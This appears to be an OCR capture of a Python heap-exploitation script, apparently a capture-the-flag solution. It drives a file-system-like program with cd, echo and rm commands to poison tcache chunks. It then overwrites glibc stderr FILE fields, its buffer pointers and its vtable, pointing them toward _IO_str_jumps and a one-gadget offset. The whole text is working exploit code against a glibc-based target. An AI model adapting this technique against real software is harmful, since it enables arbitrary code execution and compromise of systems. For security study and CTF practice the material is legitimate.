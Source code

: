 ```python
      cd("./test4")
      echo("5",p64(0x7fffffffffffffff))
      cd("../test5")
      echo("5","\r"*stderrwriteptr_s)
      cd("../")
      print("[4/5] overwrite FILE of stderr")

      # stderr_IO_buf_base / offset of default_morecore_onegadget
      off_default_morecore_one = 0x4becb
      rm("./test4/6")
      cd("./test4")
      echo("6",p64(off_default_morecore_one))
      cd("../test5")
      echo("6","\r"*stderrbufbase_s)
      cd("../")
      print("[5/5] overwrite FILE of stderr")



      # Transplant __morecore value to stderr->file._IO_buf_end ########
      cd("../")
      rm("./test2/2")
      rm("./test2/3")                   # connect to tcache
      cd("test2")
      echo("2",p8(LSB_A1))
      cd("../test6")
      echo("3","\r"*stderrbufend_s)
      cd("../test2")
      echo("6",p64(0)+p64(0x10 + morecore_s|1))
      cd("../")
      rm("./test2/2")
      cd("./test2/")
      echo("6",p64(0)+p64(0x10 + stderrbufend_s|1))
      cd("../test6")
      echo("4","\r"*stderrbufend_s)

      cd("../test2")
      echo("6",p64(0)+p64(0x10 + morecore_s|1))
      cd("../test6")
      echo("5","\r"*morecore_s)
      print("[+]overwrite stderr->file.IO_buf_end")

      # Partial Transplantation: stderr->file.vtable into _IO_str_jumps

      cd("../")
      rm("./test4/7")
      cd("./test4")
      echo("7",p16(LSB_IO_str_jmps - 0x20))            # 0-bit uncertainity after success of unsortedbin attack (before, 4bit)
      cd("../test6")
      echo("6","\r"*stderrvtable_s)
      print("[+] overwrite stderr's vtable into _IO_str_jumps - 0x20")

      # Tamper in Flight: Transplant __morecore's value to _s._allocate_buffer ###########
      cd("../")
      rm("./test3/3")
      rm("./test3/2")                   # connect to tcache
      cd("test3")
      echo("2",p8(LSB_A2))
      cd("../test6")
      echo("7","\r"*stderralloc_s)
      cd("../test3")

```
